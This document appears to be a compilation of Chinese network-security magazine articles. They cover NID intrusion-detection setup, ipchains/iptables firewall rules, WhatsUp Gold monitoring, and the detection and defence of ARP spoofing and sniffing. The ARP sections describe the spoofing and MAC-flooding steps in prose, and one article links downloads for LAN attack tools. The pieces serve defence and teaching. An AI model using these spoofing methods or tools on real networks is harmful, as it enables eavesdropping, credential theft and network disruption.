NID 能够实时侦测到网络中可能存在的攻击行为、计算机病毒、特洛伊木马程序和其他恶性数据通讯。NID 的基本版包含有不同种类的网络服务的 1500 条入侵行为特征规则，用户还可以自行手动地添加和更改入侵行为特征规则。NID 系统还整合了 Sniffer 嗅探系统用于扫描和截获网络中不同通讯协议的数据包（TCP、UDP 和 ICMP），通过调用入侵行为特征规则数据库和截获的数据包进行比较分析，能及时地发现网络中的各种攻击行为。

NID 可以敏锐地发觉一些可疑的变化，如利用率、IP 连接方式、端口扫描、主机扫描和地址欺诈等，从而发现正在进行的攻击并告警。可以说，NID 是一个强大的 Sniffer 和数据包分析环境。NID 的最大作用在于：高速流量记录和分析——系统以数据包产生的速度记录网络上的流量，这样在网络被攻击时，安全管理员可以迅速对数据进行分析，然后快速采取适当的行动。

应用重建——安全管理员可以通过对网页、电子邮件、远程登录、FTP、IRC 等的应用重建，调查非法访问、网络入侵和各种违反公司政策的行为。

详细的事后分析——可以帮助找出安全漏洞以及攻击的细节（例如网络是被谁怎样攻破的），及时作出修复和补救。

司法证据——NetDetector 记录和存储的大量数据，可以作为司法证据帮助追踪、识别和控告网络入侵者。

入侵检测——通过内置的 Sniffer 入侵检测系统，监控分析网络传输和系统事件，自动检测和响应可疑行为，使用户在系统受到危害之前截取并防范非法入侵和内部网络误用，最大程度降低安全风险，保护企业网络系统安全。

### 一、NID 入侵检测系统界面及功能介绍

安装并运行 NID 入侵检测系统后，我们可以看到整个入侵检测系统的界面相当整齐友好。整个 NID 界面分为 6 个部分，如图 1 所示。

第 1 部分为动作键部分，用户可以通过点击“开始”按钮和“停止”按钮来启动或停止 NID 系统。

第 2 部分为 NID 界面左侧的控制面板部分。此部分和 OUTLOOK 的工具栏差不多，在此控制面板上有“入侵特征规则设置”、“系统属性设置”和“NID 系统使用权限设置”这 3 个快捷方式。其中，“NID 系统使用权限设置”主要是让用户设定使用密码防止他人非法使用该系统。

第 3 部分为 Sniffer 控制面板。一旦 NID 系统启动，NID 会把扫描、嗅探到的所有数据详细参数显示出来，供用户分析判别这些数据流量。NID 可以非常迅速地分析、过滤大量数据，并生成各种时间跨度的可视实时化的信息列表。NID 整合的 Sniffer 动态嗅探引擎一秒钟可以高速扫描分析 1000 个数据包，实现对网络中本机数据交换的实时监控。

第 4 部分为命中的入侵检测系统信息显示列表区。当 NID 通过调用入侵特征规则数据库和扫描到的数据包进行对比核查中发现符合用户设定的检测条件时，检测到的具体信息会在此显示区显示出来，每个信息列表前有黄颜色的感叹号提示用户要特别注意。当用户单击选择此区域的某条信息时，在 NID 界面的第 5 部分会有这条信息的具体参数显示。如果用户双击某条信息，则会显示符合此信息的详细的入侵特征规则供用户分析参考。

第 5 部分为信息显示区。此显示区主要显示用户选中的命中的入侵行为的详细参数。例如，数据的源 IP 地址，信息类型等。

第 6 部分为数据包的详细内容显示区。此显示区能显示用户选定的数据包的详细内容。显示方式为 16 进制显示方式。

### 二、NID 的设置

NID 的设置方法相当简单，如图 2 所示。

点击控制面板的“属性”按键；我们一般需要在“通常选项（General）”中选择网络适配器（Network Adapter），需要指定 NID 需要嗅探的网络 IP 段范围（Network Segment），还需要设定报警信息（Alert Messages）。

在一般情况下，如果计算机中只有一块网卡，那么只要选择 NID 提供的第一块网卡即可。如果计算机中有多块网卡，则需要用户指定具体要 NID 监视的网卡。网络 IP 段范围只需要填入需要监视的 IP 地址段的前 3 位数即可，如 192.168.3 这样的表示是正确的，192.168.3.0 则是错误的。


设定警报信息可以根据计算机硬件的性能选择，性能好的计算机可以选择更多的显示范围。

在 NID 属性中还有一项“Security”功能，主要是让用户设定使用密码防止他人非法使用该系统。如图 3 所示。


图5

### 三、NID 入侵特征规则的设置和使用

点击控制面板的“RULES”按钮，我们可以看到如图 4 所示的入侵特征规则库分类表。

在此表中，包含 6 个不同种类的入侵特征规则数据库，这些不同种类的特征规则数据库已经存有 1500 条。Securepoint 设定的常见入侵检测特征规则，涵盖我们在网络中所遇到的操作系统种类、合法的互联网服务、非法的网络命令、非法的关键字、计算机病毒特征和各种合法的通信协议等。NID 就是根据这些已经设定好的入侵规则来和扫描嗅探到的网络数据包进行对比，发现对网络或主机有威胁的数据包，及时地在 NID 的操作界面中详细显示出来，以便用户能及时处理这些入侵行为。

双击某条入侵特征规则，我们可以看到如图 5 所示的规则详细参数。

我们可以看到，这些入侵特征规则一般都有规则编号、协议类型、源地址、目标地址、端口号、通讯内容等参数。熟悉防火墙设置的用户都知道，这些规则的参数设定实际上和设置防火墙是差不多的，只要指定了这些规定的参数，NID 就可以根据这些参数在运行过程中对网络的各种数据传输进行监控、限制和反应。


图3

通常来说，这些 Securepoint 公司给定的默认特征规则我们无需进行太大的改动。

当然，我们也可以根据实际需要添加和修改一些入侵特征规则。选定某个入侵特征规则数据库，点击动作控制面板（Action-Menu）的“New Rule”即可添加新的入侵特征规则。


图4

### 四、NID 入侵特征规则库的添加和修改

当需要根据我们的实际需要修改某条入侵特征规则时，需要首先双击此规则打开规则属性基本参数设置选项，如图 6 所示。我们可以在规则属性基本参数设置中修改如下内容：| 字段 | 说明 |
|---|---|
| SID | NID 入侵特征规则编号 |
| Message | 当 NID 和此特征规则符合时所显示的内容，如发现 MyRomeoWorm 病毒特征则显示“Virus -- Possible MyRomeo Worm”字样 |
| Protocol | 选择 NID 所需要监控的协议（可选的协议有：TCP、UDP、IP、ICMP） |
| Source | 网络源地址以及端口选择；其中 NETWORK 中的 Any、External、Internal 分别代表 NID 监控的网络方式，External 为广域网，Internal 为本地网，Any 为内外圈都同时监控扫描 |
| Destination | 网络目标地址以及端口选择 |

图6

在端口选择设置上应当注意选择 NID 的判别类型：

- Boolean NOT：非布尔类型
- Port Range：端口选择范围

举例说明：

Boolean NOT：!80，指的是除了 80 端口，其他的任何端口都是需要监控的。

Port Range：100:200，监控 100—200 这个端口范围。

数据包：如图7所示，数据包选项主要是让用户设定监控扫描的数据包的标识。其中主要包括 IP 报头和 TCP 报头选项。报头值的结构比较简单，而且可以很清楚地识别出异常报头信息，因此，特征数据的首选候选人就是它。一个经典的例子是：明显违背 RFC793 中规定的 TCP 标准，设置了 SYN 和 FIN 标记的 TCP 数据包。这种数据包被许多入侵软件采用，像防火墙、路由器以及 IDS 系统。

为了更好地理解如何开发基于报头值的特征数据，下面通过分析一个实例的整个过程进行详细阐述。

Synscan 是一个流行的用于扫描和探测系统的工具，由于它的代码被用于创建蠕虫 Ramen 的起始片段而在 2001 年早期大出风头。Synscan 的执行行为很具典型性，它发出的信息包具有多种可分辨的特性，包括：

- 不同的来源 IP 地址信息
- TCP 来源端口 21，目标端口 21
- 服务类型 0
- IP 鉴定号码 39426（IP identification number）
- 设置 SYN 和 FIN 标志位
- 不同的序列号集合（sequence numbers set）
- 不同的确认号码集合（acknowledgment numbers set）
- TCP 窗口尺寸 1028

图7

下面对以上这些数据进行筛选，看看哪个比较合适做特征数据。我们要寻找的是非法、异常或可疑数据，大多数情况下，这都反映出攻击者利用的漏洞或者他们使用的特殊技术。

以下是特征数据的候选对象：

- 只具有 SYN 和 FIN 标志集的数据包，这是公认的恶意行为迹象。
- 没有设置 ACK 标志，但却具有不同确认号码数值的数据包，而正常情况应该是 0。
- 来源端口和目标端口都为 21 的数据包，经常与 FTP 服务器关联。这种端口相同的情况一般被称为“反身”（reflexive），除了个别时候如进行一些特别 NetBIOS 通讯外，正常情况下不应该出现这种现象。“反身”端口本身并不违反 TCP 标准，但大多数情况下它们并非预期数值。例如在一个正常的 FTP 对话中，目标端口一般是 21，而来源端口通常都高于 1023。
- TCP 窗口尺寸为 1028，IP 鉴定号码在所有数据包中为 39426。根据 IP RFC 的定义，这 2 类数值应在数据包间有所不同。因此，如果持续不变，就表明可疑。

我们可以根据上述的举例，在数据包选项中填入相应的参数来定义所要监控的 IP 报头和 TCP 报头。

## 打造 Linux 的“防火墙”

惯用 Windows 的读者通常会在自己的主机上安装某种品牌的个人防火墙，而喜欢使用 Linux 操作系统的读者要架设一个防火墙呢？Linux 本身就带有非常好的防火墙程序，配置起来就是一个很不错的主机第一道防线，本文就介绍一点配置 Linux 防火墙的经验技巧。

文／醉灯

前段时间看过一些文章，是关于在 Windows 2000 下使用本地安全设置里的 IP 安全策略，进行一些简单的数据包控制，以达到一个简单的防火墙作用。Linux 作为一款优秀的网络操作系统，也有类似这样的数据包控制内嵌工具——ipchains 和 iptables，而且功能绝不比 Windows 2000 中的 IP 安全策略逊色，下面笔者就简单介绍一下这方面的内容。

内核为 2.2 的 Linux 以及较早版本支持的是 ipchains，而从 2.3 一直到 2.4 则是使用 iptables，下面首先介绍一下 ipchains。

在介绍之前，先要说明一种叫做 CIDR 的方法，知道的朋友可以略过不看。CIDR 中文名叫做无类别路由选择，它的主要作用是为了缓解当前 IP 地址的紧缺，它可以将网络分成大量的不同大小的网络，而不局限于当前的 A、B、C 等类的分法。

比如一个用 CIDR 表示的 IP 地址：215.138.4.0/20，这个地址就是说前 20 位用于网络位，而不是 C 类的 24 位，那它的子网掩码同样也不是默认的 255.255.255.0，而是 255.255.240.0（11111111 11111111 11110000 00000000）。而如果是 215.138.4.0/24，那就和我们通常所说的 C 类地址一样地拥有 24 位网络位和 8 位主机位了。

比如一台主机，是网段 192.168.1.0/24 里的一台主机，它希望建立一个防火墙来阻止所有远端主机的 ICMP 包（“ping”命令用的就是这个协议），那么就可以在 Linux 的终端里输入：

`ipchains -A input -p icmp -s 0/0 -d 0/0 -j REJECT`（注意大小写！）

下面我们来解释一下这条命令：“-A input”是输入一条规则用来控制进入接口的数据包，“-p”是指定一个协议，“-s”是指源 IP，“-d”是指目标 IP，“-j”标记是指对这个数据包采取的处理方法，这样我们就明白这个命令的意思了，“-s 0/0”就是任何源 IP 地址，“-d 0/0”就是任何目的 IP，而“REJECT”就是把这些数据包都拒绝了，这样就阻拦了所有的 ICMP。

初步了解后，我们就可以写出一个规则，使主机不能向网段 203.134.45.0/24 发送 ICMP 数据包：`ipchains -A output -p icmp -s 192.168.1.0/24 -d 203.134.45.0/24 -j REJECT`。“output”就是用来控制从接口传出的数据包，其他解释和上面的例子一样。

同样，你也可以容许或者拒绝来自其他协议和端口的数据包，比如你希望你的机器只能够接受来自 21 端口的数据包，也就是 FTP 的数据包，我们可以这样来完成：

```bash
ipchains -P output DENY
ipchains -P input DENY
ipchains -A output -p tcp -s 0/0 -d 0/0 21 -j ACCEPT
ipchains -A output -p tcp -s 0/0 -d 0/0 20 -j ACCEPT
ipchains -A input -p tcp -s 0/0 -d 0/0 1024: -j ACCEPT
```

这样就完成了这个包过滤的过程，前面两句是拒绝所有的传输，后面两句分别是容许向远程主机发送 20 和 21 端口的数据包，最后是容许本地大于或等于 1024 的临时端口接收数据包。因为一个 FTP 的建立过程首先是客户端打开一个大于 1023 的端口，连到目的端口为 21 的 FTP 服务器上，然后向服务器发出一个 PORT 命令，让服务器打开它的 20 端口，然后客户端再打开一个临时端口对目的端口 20，对服务器的连接进行确认。处理完毕后，就开始传输数据，因此我们根据 FTP 的原理建立了如上面所写的防火墙。

其实，ipchains 除了 input 和 output 这两个链之外，还有一个叫做 forward 的链，它的作用是用来控制被伪装或发向远端主机的数据包，一般用于 NAT 的处理，这里就不多作讨论了，有兴趣的朋友可以找些资料看看。

Iptables 是现在一般 Linux 版本所采用的工具，与 ipchains 相比，功能更为强大一些，但具体的语法相差不多。iptables 有几个不同的表，而 ipchains 只有一个。你可以在终端输入 `iptables -t nat -L` 显示其中的一个 nat 表，其他还有 filter 表（和 ipchains 功能相似，同时也是 iptables 的默认表）、mangle 表。当建立个人防火墙的时候，一般不用 nat 或者 mangle 表。与 ipchains 相比还有一个不同就是，iptables 所有的链都用大写字母，比如 INPUT、OUTPUT、FORWARD 等，不能用小写来表示。

比如用 iptables 来阻拦 ICMP 数据包，就如下表示：`iptables -A INPUT -p icmp -s 0/0 -d 0/0 -j DROP`。可以看出来，与 ipchains 的区别就是“input”变成了大写而已。这里就不多做赘述了。还有一个小区别就是注明端口的格式有些不同，比如要阻止外部机器对本机 Web 服务的访问，那要采用 `iptables -A INPUT -p tcp -s 0/0 -d 0/0 --dport 80 -j DROP`，注意这里用的是“--dport 80”，而不是像 ipchains 那样直接注明端口就可以了。

如果想把建立的规则删去，也很简单，只要采用 -D 标注即可。首先采用 `iptables --line-numbers -nL` 来列出当前系统中所有的链规则，每条规则都会有个相应的 number，比如要想删除第 3 条规则，那就输入 `iptables -D INPUT 3` 就可以了。

大家看了这篇简单的介绍后，不妨装上 Linux 试一试，再和 Windows 2000 下的操作比较一下，说不定也会喜欢上这个系统的。

## WhatsUp Gold 网络监控设计的应用

文/softbug

对于大型网络来说，肯定想了解当前的网络系统状态。当 Web、SMTP、POP3、FTP 或 NEWS 服务器的状态发生改变，是否想立即得到通知？对于大多数网络管理员，一定回答“是！”。随着计算机网络的扩大，你需要一个工具方便地监视网络设备以及它们所提供服务的状态……下面介绍一款网络系统状态监视软件（WhatsUp Gold 软件）。

想想公司那么多的计算机面临着来自 Internet 的黑客威胁，需要自己看护，各位有什么独到的见解吗？今天向大家介绍一款网络管理软件 WhatsUp Gold。WhatsUp Gold 软件是 Ipswitch 公司开发的监视 TCP/IP、NetBEUI 和 IPX 网络状态的易用工具，兼具网络监控和设计功能。

有了它便可以方便地坐在管理机面前监视所有电脑了。它专为大企业网络管理员和 ISP 量身定造，打破了监控大型网络的所有价格障碍。现在有了 IPX 监控，该软件也允许你能够追踪在 Novell NetWare 局域网上重要设备的情况。该软件全新的 Web 界面极大地简化了远程管理。

不用多说了，现在我们就来深入了解 WhatsUp Gold。WhatsUp Gold 现在最新版本为 8.0。下面是其运行配置要求：

- Intel Pentium 或者兼容系统。
- 30 MB 硬盘空间，建议 100 MB。
- 64 MB 内存，建议 256 MB。
- Windows NT 4.0 SP6 或更新版本，Windows 2000、Windows 98、Windows ME、Windows XP。
- 支持 TCP/IP 协议。

注意了，仔细检查一下你的计算机，看看配置是否达到了要求。

### 一、系统信息的收集

大型网络需要管理，在 WhatsUp Gold 中，信息收集有两种方式：

- WG 自己扫描网络。这一阶段可以减轻你对计算机逐个录入的工作。信息收集除了收集计算机的 IP、主机名字、SNMP 类型以外，还要收集主机的相关端口服务。优点是很快，缺点就是当计算机很多的时候需要自己手动稍微整理。
- 手动方式管理网络拓扑结构，然后由 WG 自动识别并加以监视。画图的方法还是跟 VISIO 一样，有 VISIO 2000 经验的同胞你们享福了。WG 提供了很多种元件，这些元件包括：工作站、服务器、主机、网桥、路由器、集线器、打印机等等。每一个网络元件都有专门的 IP 地址。通常，那些能及时响应测试的网络元件用绿色表示；那些丢失一次测试的网络元件用淡绿色表示；那些丢失二次测试的网络元件用黄色表示；那些不能访问或连续四次不能响应测试的网络元件用红色表示。你可以很容易地根据自己的喜好改变缺省颜色设置，如图2所示。

### 二、系统的应用

我们还是介绍一个 WG 应用方案来看看 WG 带给我们什么。

#### 1. 系统拓扑结构绘制

在这里，我们采用手动绘制的方式。拓扑结构介绍：

- 中心采用一个大型交换机作为主干线。
- 东南西北各有一个路由器，作为各个办公场所的路由点。
- 每个办公场所下有机器，并可以再细分转接子交换机。
- 中心主干另接一个管理中心，全面监视网站的运营。
- 中心内设置打印服务器和一台 WS-FTP 服务器及一台 Web 服务器。

#### 2. 开始绘制

绘制之前先双击绘制区域的空白区，先设置网络的基本属性，如图3所示。

最开始先保持“ACTIVE discovery”的扫描选项为“NO scan”！紧接着点击“general”设置一般选项，如图4所示。

同理，设置其他地点的选项。

绘制好的图片如图5所示。

具体的图片可参考光盘所附的文件。在这里为了方便管理，我们常常把大的地段简化为一个子网。在上图中我们设置了 4 个小子网，每个子网图片可以单独监控、单独连接。

#### 3. 系统设备检查

成批的设备需要检查，我们可以利用 WG 的报表功能。只要点一下报表上的检查按钮，立刻就可以看到现在有什么计算机是连通的，这样就方便了管理员对一台台计算机进行检查。

当然，我们可以设置当我们中心的 WWW1 服务出问题的时候，给我发电子邮件提醒我。WG 提供监视提醒的功能也很强大，包括 GSM 通知、语音通知、BEEP 机通知和 E-mail 通知等。

看看下面哪些设备运作是正常的，如图6。我们可以看到红色标出的都为丢失了连接的机器和网络，只有中心监控计算机是连通的。

回过头去再看看我们的设计图片，你是不是觉得看起来很形象了呢？如图7所示。

不错吧！那么，网络中的计算机出现了问题怎样提醒我们呢？

在这里我们以 Web 服务器为例子，用右键单击 WWW1 服务器，在弹出的属性菜单中选择属性栏目，再在弹出的窗口中选择 event 事件，在窗口中添加 WWW1 服务器关闭事件，如图8所示。

采用 SNMP 跟踪。然后点“确定”转到 alert 选项，如图9所示。

记得一定要勾选 On event 选项，在“选择事件”的按钮窗口中选 WWW1 关闭事件，如图10所示。

WG 是一个可以选用的网络管理工具。唯一不足的地方可能还是操作上的复杂性。希望这个软件还可以做得更好点，界面再美观一点。最新版本的 8.0 本来不支持中国 GSM，但网上已经有它的手机发送插件出售了。可见大家对其比较关注。希望 WG 可以给你的网络带来管理上的方便。

## 解析 ARP 攻击

在一个给定的物理网络上的两台计算机，只有当它们彼此知道物理网络地址时才能通信。一台计算机有一个物理地址（和硬件有关），还分配它一个网络地址（和硬件无关），这样设计目的是使网络通信时隐藏底层的硬件地址，从而允许高层程序只用网络地址工作。如果主机 A 要和主机 B 通信，但它只知道 B 的网络地址，怎么才能获得 B 的物理地址呢？这时就要用到地址解析协议 ARP（Address Resolution Protocol）及逆向地址解析协议 RARP（Reverse Address Resolution Protocol）……

如果在这一层发起恶意攻击（如构造虚假 ARP 包来欺骗网络主机，发送恶意的 IP 冲突包），会导致计算机间的网络连接被劫持、网络通信中断，严重的还会使计算机无法使用。由于任何接入 LAN 的网络计算机都要遵循 ARP 协议，因此恶意的 ARP 攻击可以对大多数网络平台在局域网内造成不同程度上的影响。

在 Windows 下的常规 ARP 攻击一般是用软件实现的，主要的攻击软件有网络剪刀手（图1）、网络执法官（图2）、局域网络终结者（图3）。在启动软件后，网络剪刀手、网络执法官会自动获取整个网段的硬件地址和相应的网络地址；可以直接点击鼠标对检测到的 IP 进行断网操作。局域网络终结者是手动填入你要攻击的 IP，之后软件会发送伪造源地址的 ARP 包来欺骗网络主机使其断开网络连接。

图1

图2

这些网络软件之中功能最强大的是“网络执法官”这个软件。它不但可以实现常规的 IP 攻击，还可以对 IP 进行相应的管理，如限时连接、限制连接等，因此一旦被用于攻击，后果将十分严重。

针对以上的 ARP 攻击，可以使用相应监测技术来发现攻击者。网络执法官可以使用专用的监测工具来监测网络中是否运行了非法的网络执法官（图4）。对于网络剪刀手，可以使用监测 Sniffer 的软件来监测处于异常状态下的网卡（图5）。

最复杂的就是对局域网终结者的检测。由于这个软件使用的是随机伪造的源地址，因此被动的 Sniffer 很难找到攻击源。我仔细分析了 ARP 协议，觉得可以使用 Sniffer 进行主动防护，因为进行 ARP 攻击前首先要查询 ARP 地址，可以使用 Sniffer 捕获这些广播的查询包（图6），进行相应分析（如多次异常查询），就可以在一定程度上发现攻击者。

同时我也希望有高手编一个 ARP 的监测和预警工具，还 LAN 一片宁静。大家有什么好的方法可以一起交流。QQ：95714623。

- 网络剪刀手的下载地址：http://www.skycn.com/soft/7018.html
- 网络执法官的下载地址：http://www.skycn.com/soft/9352.html
- 局域网终结者的下载地址：http://www.top183.cn/soft/3505.htm

关于 ARP Sniffer 的原理，网上和《黑客防线》中有比较多的分析和介绍。有攻必有防，在网络如此脆弱的今天，防范应该占据着更加重要的位置。本文从“防”的角度出发，对 ARP Sniffer 的检测和防范作了比较详细的介绍，希望能够对大家有所帮助。

- 难度等级：中
- 前置知识：ARP 欺骗、Sniffer 原理

## 谁在监视我的一举一动
## ——ARP Sniffer 的检测与防范

文 / darkshark

### ARP Sniffer 简介

ARP Sniffer 是 Sniffer 中的一种，它主要是通过 ARP 欺骗来实现 Sniffer 的，下面我们只做个简单介绍（ARP 欺骗的详细原理请参见攻册《ARP Sniffer 与 ARP 欺骗》一文）。假设在局域网中 10.0.0.108 和 10.0.0.8 都是通过网关 10.0.0.1 上网的，假定攻击者的系统为 10.0.0.108，他希望监听到 10.0.0.8 的通信。那么，可以通过以下步骤达到目的。

- 1) 10.0.0.108 假冒 10.0.0.1 向 10.0.0.8 发送 ARP 应答数据包，告诉 10.0.0.8，网关 10.0.0.1 的 MAC 地址是 10.0.0.108 的 MAC 地址，此时 10.0.0.8 会更新自己的 ARP 缓存表。
- 2) 10.0.0.108 再假冒 10.0.0.8 向 10.0.0.1 发送 ARP 应答数据包，告诉网关 10.0.0.1，10.0.0.8 的 MAC 地址是 10.0.0.108 的 MAC 地址，10.0.0.1 会更新自己的 ARP 缓存表。

这样，10.0.0.1 和 10.0.0.8 之间的数据包就会发给 10.0.0.108，也就是攻击者的机器，攻击者就可以看到受害者 10.0.0.8 的所有上网记录了，包括各种账户和密码——厉害吧！

### ARP Sniffer 的检测

那么，从哪些迹象我们可以了解到（当然是在发现自己的邮箱密码、BBS 账户密码神秘被盗之前），我们可能受到了 ARP Sniffer 攻击呢？一般来说，我们可以从以下几种情况着手：

- 1. 某台机器突然发现自己不能上网。  
  观察本地连接，发现可以发出数据包，但是基本不能收到数据。这种事情一般是一个蹩脚的黑客所为，他只是对你进行了 ARP 欺骗，而没有进行数据转发，所以你能发出数据，而收到的数据全都被他截获了。
- 2. 网络通信丢包率非常高。  
  最简单是用 ping 命令，它会告诉你掉了百分之多少的包。如果你的网络结构正常，而又有 20%～30% 数据包丢失，以致数据包无法顺畅地流到目的地，就有可能有人在监听，这是由于嗅探器拦截数据包导致的。
- 3. 网络带宽出现反常。  
  通过某些带宽控制器，可以实时看到目前网络带宽的分布情况。如果某台机器长时间占用了较大的带宽，这台机器就有可能在监听。
- 4. 通过工具检测。  
  可以借助检测 IP 地址和 MAC 地址对应关系的工具，如 ARPwatch，来检测网络中 MAC 地址发生的变化。安装了 ARPwatch 的系统在发生 MAC 地址变化时会在系统日志文件中留下记录。

### ARP Sniffer 的防范

ARP Sniffer 是一种隐蔽而又难以防范的攻击，但是也还是有一定的防范方法的。下面我们针对非交换环境和交换环境下的 ARP Sniffer 防范分别加以介绍。

#### 1. 非交换环境下 ARP Sniffer 的防范方法

- 1) 定期检查自己的 ARP 缓存表。  
  定期检查自己的 ARP 缓存表，看看有没有出现重复的 MAC 地址。ARP Sniffer 的前提是修改目标主机的 ARP 缓存表，一般是把网关的 MAC 地址改成自己的，所以检查时会发现有两个 IP 对应相同的 MAC 地址。这时候你就知道自己被嗅探了，可以用命令“arp -d”删掉缓存中相应的记录。
- 2) 用静态 ARP 代替动态 ARP。  
  ARP Sniffer 主要是通过欺骗进行 ARP 动态缓存表的修改，我们可以在重要主机或者工作站上设置静态 ARP 缓存表，来保证 ARP 缓存表不被修改。对于 Windows 系统，可以使用“arp -s”命令设置静态的 IP 和 ARP 对应关系，如“arp -s 10.0.0.108 00-08-74-1C-F3-A7”。可惜除了 Windows XP 外，在其他 Windows 平台即使这样做，当接收到伪造的 ARP 应答包后，依然会更新自己的 ARP 缓存，用新的 MAC 地址替换掉老的 MAC 地址，所以还是无法对抗 ARP Sniffer。对于 Unix 和 Linux 系统，可以编辑内容为 IP 和 MAC 地址对应关系的文件，然后使用“arp -f”命令读取该文件，这样就指定了静态 ARP 地址，即使接收到 ARP 应答包，也不会更新自己的 ARP 缓存。  
  如果采用静态 ARP，对于小型网络来说工作量还可以承受，但是对于大型网络，为每台工作站设置静态 ARP 的工作量会非常大。所以比较可行的办法是只在交换机和网关等重要设备上采用静态 ARP，这样既可以有效防止 ARP Sniffer，又不会太困难。
- 3) 使用 ARP 服务器。  
  在网络中建立一台 ARP 服务器，确保该服务器上的 IP 和 MAC 地址对照表是正确的。当该网络中有工作站需要进行 MAC 地址查询并发出 ARP 广播包时，该服务器就响应并给予回答。这种方法的关键是保证 ARP 服务器上的数据真实。
- 4) 安全的拓扑结构。  
  嗅探器只能在当前网络段上进行数据捕获。有 3 种网络设备是嗅探器不可能跨过的：交换机、路由器和网桥。我们可以通过灵活运用这些设备来进行网络分段。大多数早期建立的内部网络都使用 HUB 集线器来连接工作站，而 HUB 集线器采用广播发送数据的方式，非常便于 ARP Sniffer。随着交换机价格下降，网络改造变得可行且很必要了。不使用 HUB 而用交换机来连接网络，就能有效避免 ARP Sniffer（实际上用交换机也不安全，后面会介绍）。对网络进行分段，比如在交换机上设置 VLAN，使网络隔离不必要的数据传送。
- 5) 数据加密。  
  我们可以对传输数据进行加密，尽可能让局域网内传输的数据都是密文，这可能是相对最理想的防范方法。不用特别担心数据被嗅探，而要想办法使嗅探器不认识嗅探到的数据。这种方法的优点很明显：即使攻击者嗅探到了数据，这些数据对他也是没有用的。  
  传统网络服务程序 SMTP、HTTP、FTP、POP3 和 Telnet 等在本质上都是不安全的，因为它们在网络上用明文传送口令和数据，非常容易就可以截获这些口令和数据。在实际应用中，我们可以替换掉不安全的采用明文传输数据的服务，如在 Server 端用 SSH、OpenSSH 等替换系统自带的 Telnet、FTP，在 Client 端使用 SecureCRT、SSHTransfer 替代 Telnet、FTP 等。  
  这里还要跟大家介绍一下 SSH。SSH 的英文全称是 Secure Shell。通过使用 SSH，你可以把所有传输的数据进行加密，这样“中间服务器”这种攻击方式就不可能实现了，而且也能够防止 DNS 和 IP 欺骗。还有一个额外的好处就是传输的数据经过压缩，所以可以加快传输速度。SSH 有很多功能，它既可以代替 Telnet，又可以为 FTP、POP，甚至 PPP 提供一个安全的“通道”。SSH 绑定在端口 22 上，其连接采用协商方式使用 RSA 加密。身份鉴别完成之后，后面的所有流量都使用 IDEA 进行加密。SSH（Secure Shell）程序可以通过网络登录到远程主机并执行命令。SSH 的加密隧道保护的是中间传输的安全性，使任何通常的嗅探工具软件无法获取发送内容。它提供了很强的安全验证，可以在不安全的网络中进行安全通信。

#### 2. 交换环境下 ARP Sniffer 的防范

首先介绍一下交换机的工作方式。交换机不同于工作在第一层的 Hub，交换机是工作在第二层，也就是说数据链路层。交换机在工作时维护着一张 MAC 地址数据库，在这个库中记录着交换机每个端口绑定的 MAC 地址。当有数据报发送到交换机上时，交换机会将数据报的目的 MAC 地址与自己维护的数据库内端口对照，然后将数据报发送到“相应的”端口上。注意，不同于 Hub 的报文广播方式，交换机转发的报文是一一对应的。对交换机而言，仅有两种情况会发送广播报文：一是数据报目的 MAC 地址不在交换机维护的数据库中，此时报文向所有端口转发；二是报文本身就是广播报文。

交换环境下的 ARP Sniffer 有两种实现方式：ARP 欺骗和 MAC 洪水，下面依次介绍。

### 1) ARP 欺骗

发送我们伪造的 MAC 地址数据包到交换机，就可以欺骗交换机刷新自己的 MAC 地址—端口数据表。假设 A 主机连接在 1 口；假设我在 2 口，要监听 A 主机的数据，那么我就可以伪造一个 ARP 数据包，告诉交换机 A 主机 MAC 地址对应 2 口，那么交换机就会将本来发送到 A 主机的数据转发到 2 口上，这个时候我就可以监听到 A 主机的数据传送了。

### 2) MAC 洪水

通过向交换机快速发送大量伪造 MAC 地址的数据包，会造成交换机的 MAC—端口表塞满。但为了正常数据不被丢弃，大多数交换机会采取类似 Hub 的方式，以广播方式发送数据。这个时候，我们只需要设置网卡为混杂模式，就可以 Sniffer 到任何想要监听的数据了。

对于交换环境下 ARP Sniffer 的防范，除了上述静态 ARP、建立 ARP 服务器、数据加密外，我们还可以采用如下方法：

- 1. 定期检查交换机的 MAC 地址—端口对应表：管理员应该定期检查交换机的 MAC 地址—端口对应表，以确定表中每一个 MAC 地址所对应的端口都是真实的。
- 2. 使用工具检测：采用第三方软件来检测，如 ARPwatch 是一个运行在 Unix 平台下的免费工具，它可以检测到网络中所有 MAC 地址的变化，一旦网络中的 MAC 地址有变化，就会通知管理员。

### 后记

ARP Sniffer 攻击的确是一个令人头痛的问题。某些著名安全网站也是难逃此劫。就是普遍认为在 Sniffer 方面比较安全的交换环境，在 ARP Sniffer 面前也是垂头丧气。希望大家看完本文后，在 ARP Sniffer 的防范方面有更加深入的了解。如果你有更好的想法，欢迎到我们的论坛和大家共同分享交流。

## 用噬菌体密码防盗专家

文／吴惠民

有时候上网一不小心碰上木马、密码间谍、键盘记录和恶意外挂之类的程序，就会立即导致个人密码或账号失窃。尤其是对于一些重要账号，比如 QQ 密码、在线游戏账号（级别越高，练级花费的 Money 和时间也越多哟），一旦失窃，真让人懊恼不已。

这里向大家推荐一款工具——噬菌体密码防盗专家。它不但能对账号进行密码保护，还能实时诱捕各种隐藏的病毒、木马、传奇黑眼睛、冰河、oicqthief、QQ 密码侦探、户外幽灵、边锋盗号机、传奇击键、qqspy、OICQ 密码监听记录工具、qeyes 潜伏猎手、QQ 号码抢劫者、QQ 黑暗精灵、QQ 杀手、17173 外挂木马、in2000 密码大盗、Hiddduke 爬行动物、阿 Q 盗密者、凯屋 QQ 间谍、送你 QQ、QQ 追随者之网吧版、GetQQPasswords、QQ 情感往事、QQ 网络潜伏者、ShareQQ、密码专家、传奇在线游戏击键记录、pcGhost—电脑幽灵、超级密码记录木马、联众密码监听器、按键记录器、跟踪者、IEthief、恶意外挂程序等，更能在这些黑客程序发送密码邮件时进行截获。

首先依次点击“开始->程序->噬菌体密码防盗专家”启动该软件（也可直接点击桌面快捷方式打开），随后就将弹出一个程序框（图1）。此时，任何意图获取密码和账号的可疑程序都将被监视起来，并及时在“消息”页面的“报警信息”中向你报警并阻止入侵者。将该程序框最小化后，一切就可以高枕无忧了。此外，在程序框的“配置”页面中（图2），将列出可疑模块的名称，假如你断定某个模块无害，可以用鼠标选中它，然后点击右键，按下“信任此模块”，这样该模块就脱离监控正常运行了。

